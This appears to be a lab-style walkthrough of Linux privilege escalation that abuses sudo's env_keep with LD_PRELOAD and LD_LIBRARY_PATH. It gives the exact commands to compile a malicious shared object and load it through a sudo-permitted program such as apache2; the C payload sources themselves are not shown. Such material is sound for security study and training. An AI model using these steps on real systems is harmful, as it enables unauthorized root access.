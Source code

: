 Sudo can be configured to inherit certain environment variables from the user's environment.
# Exploiting
### Method 1:  LD_PRELOAD using (preload.c)

Check which environment variables are inherited (look for the env_keep options):

```bash
sudo -l
```

LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

Create a shared object using the code preload.c (in this example it is located at `/home/user/tools/sudo/preload.c`):

```bash
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

Run one of the programs you are allowed to run via sudo (listed when running **sudo -l**), while setting the LD_PRELOAD environment variable to the full path of the new shared object:

```bash
sudo LD_PRELOAD=/tmp/preload.so <program-name-here>
```
### Method 2:  LD_LIBRARY_PATH using (library.c)

Run ldd against the apache2 program file to see which shared libraries are used by the program, there is a reason why we chose apache2 command, because we can run it with sudo permissions without password need (run `sudo -l` to see which sudo commands you can run):

```bash
ldd /usr/sbin/apache2
```

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code library.c (in this example it is located at ``/home/user/tools/sudo/library_path.c`):

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):

```bash
sudo LD_LIBRARY_PATH=/tmp apache2
```

Note: when I tried the libpcre.so.3 library I got `undefined symbol: pcre_free` and for this one I found a solution which is adding a dummy code "void pcre_free(){} " to library.c code and it worked.